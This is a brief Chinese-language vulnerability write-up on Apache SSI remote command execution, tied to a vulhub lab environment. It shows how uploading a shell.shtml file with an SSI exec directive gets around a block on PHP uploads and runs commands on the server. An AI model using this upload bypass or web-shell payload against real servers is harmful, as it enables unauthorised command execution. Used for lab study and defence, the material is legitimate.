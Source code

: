 Apache SSI 远程命令执行漏洞
===========================

一、漏洞简介
------------

在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用\`\`语法执行任意命令。

二、漏洞影响
------------

三、复现过程
------------

正常上传PHP文件是不允许的，我们可以上传一个shell.shtml文件：

    <!--#exec cmd="ls" -->

![](./resource/ApacheSSI远程命令执行漏洞/media/rId24.png)

成功上传，然后访问shell.shtml，可见命令已成功执行：

![](./resource/ApacheSSI远程命令执行漏洞/media/rId25.png)

参考链接
--------

> https://vulhub.org/\#/environments/httpd/ssi-rce/
